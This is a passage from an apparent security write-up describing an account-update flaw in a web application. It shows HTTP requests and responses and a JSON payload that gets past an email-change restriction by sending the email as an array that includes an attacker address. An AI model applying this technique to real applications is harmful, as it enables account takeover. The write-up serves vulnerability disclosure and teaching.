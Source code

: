 The above request demonstrates that the application allows users to update their details, including email. However, the user interface disables the edit email field.

### Response

```http
HTTP/1.1 200 OK 
Access-Control-Allow-Origin: * 
Content-Type: application/json; charset=utf-8 
Set-Cookie: blah...blah...blah...; Path=/; HttpOnly 
X-Frame-Options: SAMEORIGIN 
X-Content-Type-Options: nosniff 
X-XSS-Protection: 1; mode=block 
Referrer-Policy: strict-origin-when-cross-origin 
Connection: close 
Strict-Transport-Security: max-age=31536000; includeSubDomains

{
  "Success": true,
  "Message": "User details Updated"
}
```

The server responds with a 200 OK status code and a success message indicating that the user's details have been successfully updated.

### Bypassing the Security Measures

Changing the existing email value in the request results in an `Invalid Request Data` error response. However, this protection can be bypassed by passing the email as an array.

```json
{
  "user_Id": "2abaac0a-4af8-4101-a763-9d0229cafb12",
  "email": [
    "naveenj@thevillagehacker.com",
    "attacker@thevillagehacker.com"
  ],
  "Mobile": "9874563217",
  "role": "Analyst",
  "isActive": true
}
```

After sending the above request, the server responds with a "200 OK" status code and a success message, indicating that the user details have been updated.

### GET /user_detail

To retrieve the current user's details, a GET request to `/user_detail` is made.

### Request

```http
GET /user_detail HTTP/2
Host: abc.com
Cookie: blah....blah...
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Csrf-Token: csrf_token_value
Referer: https://abc.com/dashboard
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
```